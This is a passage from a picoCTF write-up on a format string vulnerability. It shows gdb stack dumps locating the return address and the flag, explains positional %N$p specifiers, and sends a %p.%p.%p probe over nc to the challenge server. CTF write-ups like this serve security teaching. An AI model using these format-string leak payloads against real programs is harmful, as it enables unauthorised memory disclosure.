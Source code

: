 **Key addresses identified**:
- **Return address**: `0x8049418` (where execution returns after `vuln()` completes)
- **Breakpoint address**: `0x80493a3` (right before the vulnerable `printf()` call)

### Stack Layout Investigation

```bash
$ echo "picoCTF{test_flag_for_debugging}" > flag.txt
$ gdb ./vuln
(gdb) break *0x80493a3
(gdb) run
# Input: test
(gdb) x/70x $esp
```

**Stack dump output**:
```
0xffffccd4:	0xffffcce0	0xffffffff	0x08049346	0x74736574
0xffffcce4:	0xf7d75300	0xffffffff	0xf7d7394c	0xf7fbf400
...
0xffffcd54:	0x080484a4	0xf7ffcfec	0x08048338	0x6f636970
0xffffcd64:	0x7b465443	0x74736574	0x616c665f	0x6f665f67
0xffffcd74:	0x65645f72	0x67677562	0x7d676e69	0xffff000a
...
0xffffcda4:	0x0804c000	0xffffcdc8	0x08049418	0xf7fbf400
```

**Analysis**:
1. **Return address** `0x08049418` found at position 55 (counting from stack top)
2. **Flag data** found at positions 37-44:
   - `0x6f636970` → "pico"
   - `0x7b465443` → "CTF{"
   - `0x74736574` → "test"
   - `0x616c665f` → "_fla"
   - etc.

### Understanding Stack Positions

The stack grows downward in memory. When `printf()` processes format specifiers, it reads arguments from specific stack positions:

- `%1$p` reads position 1 (near current stack pointer)
- `%37$p` reads position 37 (where our flag starts)
- `%55$p` reads position 55 (the return address)

## Exploitation

### Step 1: Verify Format String Vulnerability

```bash
$ nc saturn.picoctf.net [port]
Tell me a story and then I'll tell you one >> %p.%p.%p
Here's a story - 
0x8048338.0xf7fc3dc0.0xf7fc0ac0
```
